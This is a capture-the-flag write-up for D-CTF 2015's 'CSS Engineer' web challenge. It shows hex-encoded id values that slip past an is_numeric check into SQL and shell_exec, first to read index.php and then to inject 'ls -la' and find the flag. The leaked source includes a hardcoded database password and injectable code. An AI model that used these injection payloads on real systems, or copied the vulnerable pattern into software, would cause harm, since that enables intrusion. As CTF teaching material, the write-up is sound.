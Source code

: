 ## D-CTF 2015 - CSS Engineer (Web 400)
##### 02/10 - 04/10/2015 (36hr)
___

### Description:  
http://10.13.37.5
___

We start by playing around with id and usr parameters. If we look at the source code we will see
a php file being the source of an image. Hmmmm how this code could be? the php should have something
like this:
```
    <?php
        header('Content-Type: image/jpeg');
        readfile('some_image.jpg');
    ?>
```

Let's use telnet to inspect what's going on:
```
root@vasilikoula:~/ctf/dctf# telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    GET /?id=3&usr=1   

    cat: images/3_6.jpg: No such file or directory
    Connection closed by foreign host.
```
id=3 and usr=1 is trying to open image 3_6.jpg. After a while we find the pattern:
id is the first part of the file name. Then an underscore follows and finally a number
which depends on usr:
```
    switch( usr )
    {
    	case 1: name .= "6.jpg"
    	case 2: name .= "267.jpg"
    	case 3: name .= "269.jpg"
    	case 4: name .= "271.jpg"
    }
```
We can't do much with usr, so we should focus on id. Lets start "fuzzing" it: 
```
    (echo -e "GET /?id=999999999999999&usr=1 HTTP/1.0\n\n"; sleep 0.5) | telnet 10.13.37.5 80
```
The above command returns the error:
    images/999999999999999_6.jpg: No such file or directory

Id parameter is "reflected". However id must be numeric. If we supply an non-numeric value, we'll
get the error "ID or User ID must be numeric". However if we supply hex literals we'll some 
interesting things:
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x3336&usr=1 HTTP/1.0\n\n"; sleep 0.5) 
                            | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 03:57:13 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 48
    Connection: close
    Content-Type: image/jpeg

    cat: images/36_6.jpg: No such file or directory
    Connection closed by foreign host.
```
Ok, got the point. Let's read index.php: "../index.php" -> 0x2e2e2f696e6465782e70687000
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x2e2e2f696e6465782e70687000&usr=1 HTTP/1.0\n\n"; sleep 0.5) 
                            | telnet 10.13.37.5 80
Trying 10.13.37.5...
Connected to 10.13.37.5.
Escape character is '^]'.
HTTP/1.1 200 OK
Date: Sun, 04 Oct 2015 03:58:19 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.13
Connection: close
Content-Type: image/jpeg
WmzWZmPH7PZJtxOyff[..... TRUNCATED FOR BREVITY .....]Ugo5KtCkuSv8AAF
```
```
<?php

// ini_set('display_errors',1);
// error_reporting(E_ALL);

mysql_connect('localhost','w400', 'lajsflkjaslfjasklfj10412497128') or die('neah');
mysql_select_db('w400');

if(isset($_GET['id'], $_GET['usr'])) {

    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,/9j/4AAQSkZJRgABA[..... TRUNCATED FOR BREVITY .....]1zPsUtJJokWJn/2Q==">');
    }

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
cNYXndfWopzZp0Hwl[..... TRUNCATED FOR BREVITY .....]JEnxqUZ8rXH9thbbeetl5
Connection closed by foreign host.
```

We have the code now. The interesting part is the following lines:
```
    q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    echo shell_exec("cat images/$path 2>&1");
```

If we supply and id with spaces the result will be the following:
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x61206220632064&usr=2 HTTP/1.0\n\n"; sleep 0.5) 
                | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 04:13:33 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 151
    Connection: close
    Content-Type: image/jpeg

    cat: images/a: No such file or directory
    cat: b: No such file or directory
    cat: c: No such file or directory
    cat: d_267.jpg: No such file or directory
    Connection closed by foreign host.
```
The multiple files is a consequence of cat command. Now we can manipulate $path which means that 
we can execute arbitrary commands :)

Let's execute an ls: "foo; ls -la"
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x666f6f3b206c73202d6c6100&usr=2 HTTP/1.0\n\n"; 
                        sleep 0.5) | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 04:16:22 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 330
    Connection: close
    Content-Type: image/jpeg

    total 44
    drwxr-xr-x 3 root root  4096 Oct  3 16:15 .
    drwxr-xr-x 3 root root  4096 Oct  1 22:08 ..
    -rw-r--r-- 1 root root    17 Oct  1 22:20 .htaccess
    -rw-r--r-- 1 root root    38 Oct  1 22:14 6e8218531e0580b6754b3e3be5252873.txt
    drwxrwxr-x 2 root root  4096 Oct  1 22:14 images
    -rw-r--r-- 1 root root 21392 Oct  1 22:17 index.php
    Connection closed by foreign host.
```
All we have to do is to access that strange file:

http://10.13.37.5/6e8218531e0580b6754b3e3be5252873.txt
**DCTF{19b1f9f19688da85ec52a735c8da0dd3}**
___